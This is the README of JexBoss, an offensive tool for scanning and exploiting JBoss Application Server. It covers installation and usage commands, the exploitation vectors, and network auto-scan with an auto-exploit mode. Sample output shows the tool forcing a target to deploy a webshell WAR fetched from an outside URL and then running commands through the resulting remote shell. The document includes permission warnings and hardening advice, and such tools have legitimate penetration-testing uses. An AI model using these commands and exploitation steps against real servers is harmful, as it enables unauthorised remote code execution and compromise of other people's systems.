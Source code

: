 JexBoss - Jboss verify and EXploitation Tool
=======

JexBoss is a tool for testing and exploiting vulnerabilities in JBoss Application Server.

Requirements
----
* Python >= 2.7.x
* [urllib3](https://pypi.python.org/pypi/urllib3)

Installation
----
To install the latest version of JexBoss, please use the following commands:

	git clone https://github.com/joaomatosf/jexboss.git
	cd jexboss
	python jexboss.py -h

	OR:

	Download the latest version at: https://github.com/joaomatosf/jexboss/archive/master.zip
	unzip master.zip
	cd jexboss-master
	python jexboss.py -h

Features
----
The tool and exploits were developed and tested for versions 3, 4, 5 and 6 of the JBoss Application Server.

The exploitation vectors are:

* /admin-console [ NEW ]
	- tested and working in JBoss versions 5 and 6
* /jmx-console
	- tested and working in JBoss versions 4, 5 and 6
* /web-console/Invoker
	- tested and working in JBoss versions 4
* /invoker/JMXInvokerServlet
	- tested and working in JBoss versions 4 and 5

Screenshots
----

* Standalone mode:
```
$ python jexboss.py -host 192.168.0.114:8080
```
![alt tag](https://github.com/joaomatosf/jexboss/raw/master/screenshots/standalone_mode.png)

* Usage modes:
```
$ python jexboss.py -h
```
![alt tag](https://github.com/joaomatosf/jexboss/raw/master/screenshots/help_usage.png)

* Network scan mode:
```
$ python jexboss.py -mode auto-scan -network 192.168.0.0/24 -ports 8080 -results results.txt
```
![alt tag](https://github.com/joaomatosf/jexboss/raw/master/screenshots/network_scan_mode.png)

* Network scan with auto-exploit mode:
```
$ python jexboss.py -mode auto-scan -A -network 192.168.0.0/24 -ports 8080 -results results.txt
```
![alt tag](https://github.com/joaomatosf/jexboss/raw/master/screenshots/network_with_auto_exploit_mode.png)


* Results and recommendations:

![alt tag](https://github.com/joaomatosf/jexboss/raw/master/screenshots/results_and_recommendations.png)

Usage example
----
* Check the file "demo.png"

* Auto scan mode:
```
$ python jexboss.py -mode auto-scan -network 192.168.0.0/24 -ports 8080,80 -results report_auto_scan.log
```

* File scan mode:
```
$ python jexboss.py -mode file-scan -file host_list.txt -out report_file_scan.log
```

* More Options:

```
$ python jexboss.py -h

optional arguments:
  -h, --help            show this help message and exit
  --version             show program's version number and exit
  --auto-exploit, -A    Send exploit code automatically (USE ONLY IF YOU HAVE
                        PERMISSION!!!)
  --disable-check-updates, -D
                        Disable the check for updates performed by JSP
                        Webshell at:
                        http://webshell.jexboss.net/jsp_version.txt
  -mode {auto-scan,file-scan,standalone}
                        Operation mode

Standalone mode:
  -host HOST            Host address to be checked (eg.
                        http://192.168.0.10:8080)

Auto scan mode:
  -network NETWORK      Network to be checked in CIDR format (eg. 10.0.0.0/8)
  -ports PORTS          List of ports separated by commas to be checked for
                        each host (eg. 8080,8443,8888,80,443)
  -results FILENAME     File name to store the auto scan results

File scan mode:
  -file FILENAME_HOSTS  Filename with host list to be scanned (one host per
                        line)
  -out FILENAME_RESULTS
                        File name to store the file scan results

```

* Standalone mode:

```
* Via git:

$ git clone https://github.com/joaomatosf/jexboss.git
$ cd jexboss
$ python jexboss.py -host https://site-teste.com

* Or via download:

$ wget https://github.com/joaomatosf/jexboss/archive/master.zip
$ unzip master.zip
$ cd jexboss-master
$ python jexboss.py -host https://site-teste.com


 * --- JexBoss: Jboss verify and EXploitation Tool  --- *
 |                                                      |
 | @author:  João Filho Matos Figueiredo                |
 | @contact: joaomatosf@gmail.com                       |
 |                                                      |
 | @update: https://github.com/joaomatosf/jexboss       |
 #______________________________________________________#


 ** Checking Host: https://site-teste.com **

 * Checking admin-console: 	       [ EXPOSED ]
 * Checking web-console: 	       [ OK ]
 * Checking jmx-console: 	       [ VULNERABLE ]
 * Checking JMXInvokerServlet: 	   [ VULNERABLE ]


 * Do you want to try to run an automated exploitation via "jmx-console" ?
   This operation will provide a simple command shell to execute commands on the server..
   Continue only if you have permission!
   yes/NO ? yes

 * Sending exploit code to https://site-teste.com. Wait...


 * Info: This exploit will force the server to deploy the webshell
   available on: http://www.joaomatosf.com/rnp/jbossass.war
 * Successfully deployed code! Starting command shell, wait...

 * - - - - - - - - - - - - - - - - - - - - LOL - - - - - - - - - - - - - - - - - - - - *

 * https://site-teste.com:

 Linux seglinux 3.18.4-1.el6.elrepo.x86_64 #1 SMP Wed Jan 28 13:28:52 EST 2015 x86_64 x86_64 x86_64 GNU/Linux

 CentOS release 6.5 (Final)

 uid=509(jboss) gid=509(jboss) grupos=509(jboss) context=system_u:system_r:initrc_t:s0

[Type commands or "exit" to finish]
Shell> pwd
/usr/jboss-6.1.0.Final/bin

[Type commands or "exit" to finish]
Shell> hostname
fwgw

[Type commands or "exit" to finish]
Shell> ls -all /home
total 16
drwxr-xr-x.  4 root  root  4096 Jan 26  2015 .
dr-xr-xr-x. 23 root  root  4096 Mar 31 04:51 ..
-rwxrwxrwx.  1 root  root     0 Jan 26  2015 file1
-rw-r-----.  1 root  root     0 Jan 26  2015 file2
-rw-rw-r--.  1 root  root     0 Jan 26  2015 file3
drwx------.  2 joao  joao  4096 Jan 26  2015 joao
drwx------.  2 maria maria 4096 Jan 26  2015 maria

[Type commands or "exit" to finish]
Shell>exit

Results: potentially compromised server!
 * - - - - - - -  - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -*
 Recommendations:
 - Remove web consoles and services that are not used, eg:
    $ rm web-console.war
    $ rm http-invoker.sar
    $ rm jmx-console.war
    $ rm jmx-invoker-adaptor-server.sar
    $ rm admin-console.war
 - Use a reverse proxy (eg. nginx, apache, F5)
 - Limit access to the server only via reverse proxy (eg. DROP INPUT POLICY)
 - Search vestiges of exploitation within the directories "deploy" and "management".

 References:
   [1] - https://developer.jboss.org/wiki/SecureTheJmxConsole
   [2] - https://issues.jboss.org/secure/attachment/12313982/jboss-securejmx.pdf

 - If possible, discard this server!
 * - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -*

 * Info: review, suggestions, updates, etc:
   https://github.com/joaomatosf/jexboss

 * DONATE: Please consider making a donation to help improve this tool,
           including research to new versions of JBoss and zero days.

 * Paypal:  joaomatosf@gmail.com
 * Bitcoin Address:  14x4niEpfp7CegBYr3tTzTn4h6DAnDCD9C
 * URI:  bitcoin:14x4niEpfp7CegBYr3tTzTn4h6DAnDCD9C?label=jexboss
```



Questions, problems, suggestions and etc:
----

* joaomatosf@gmail.com


